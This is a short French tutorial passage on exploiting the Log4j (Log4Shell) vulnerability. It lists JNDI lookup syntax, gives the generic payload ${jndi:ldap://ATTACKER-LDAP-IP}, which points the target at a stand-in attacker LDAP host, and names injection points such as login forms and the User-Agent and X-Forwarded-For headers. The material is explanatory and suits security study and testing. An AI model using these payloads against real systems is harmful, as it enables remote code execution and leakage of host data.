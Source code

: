 
Quelques exemples de syntaxe JNDI :

```sh
${sys:os.name}
${sys:user.name}
${log4j:configParentLocation}
${ENV:PATH}
${ENV:HOSTNAME}
${java:version}
```

La charge utile générale pour exploiter log4j :

```sh
${jndi:ldap://ATTACKER-LDAP-IP}
```

-  le schéma `ldap://` indique que la cible atteindra un point final (un emplacement contrôlé par l'attaquant) via le protocole LDAP.

D'autres emplacements, vous pouvez fournir cette syntaxe JNDI :

- Zones de saisie, formulaires de connexion utilisateur et mot de passe, points de saisie de données dans les applications
- En-têtes HTTP tels que `User-Agent` ,`X-Forwarded-For` ou autres en-têtes personnalisables
- N'importe quel endroit pour les données fournies par l'utilisateur
